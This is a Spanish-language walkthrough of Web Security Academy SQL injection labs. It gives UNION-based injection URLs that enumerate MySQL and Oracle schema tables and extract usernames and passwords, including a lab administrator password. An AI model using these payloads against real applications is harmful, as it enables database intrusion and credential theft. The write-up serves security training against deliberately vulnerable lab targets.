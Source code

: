 ```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select TABLE_SCHEMA ,TABLE_NAME from information_schema.tables --
```
  
Varias tablas con nombres de users, será mejor encontrar alguna con una columna que tenga contraseña
  
```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select TABLE_NAME,COLUMN_NAME from information_schema.columns --
```
  
encontramos una tabla llamada `users_phrdzq` que contiene las columnas `username_fupjlk` y `password_dhtwtn`, entonces modificamos la consulta para obtener los valores de esta tabla
  
```http
https://ac331f5e1ed3d20e80bd47dc00a60093.web-security-academy.net/filter
?category=Gifts' union select username_fupjlk,password_dhtwtn from users_phrdzq --
```
  
obtenemos los valores de administrator
  
> | users_phrdzq  | password_dhtwtn      |
> | :------------ | -------------------- |
> | administrator | tcqd7xuw8lsd4uvn8e7z |
  
###  Equivalent to information schema on Oracle
  
  
####  Lab10: SQL injection attack, listing the database contents on Oracle
  
  
Realizamos los pasos similares al anterior, en este caso ya sabemos que es para un DBMS de oracle
  
para sacar la version
  
```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select null,banner from v$version --
```
  
para sacar las tablas de la base de datos
  
```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select null,TABLE_NAME from all_tables --
```
  
para sacar las columnas de la tabla USERS_ADMDFI que parece mas sospechoza
  
```http
https://acf91fd61fdb866c80560c7100da00ce.web-security-academy.net/filter
?category=Pets' union select TABLE_NAME,COLUMN_NAME from all_tab_columns where TABLE_NAME='' --
```
  
> | USERS_ADMDFI    | USERS_ADMDFI    |
> | :-------------- | --------------- |
> | USERNAME_SZEHOW | PASSWORD_TDJNHV |
  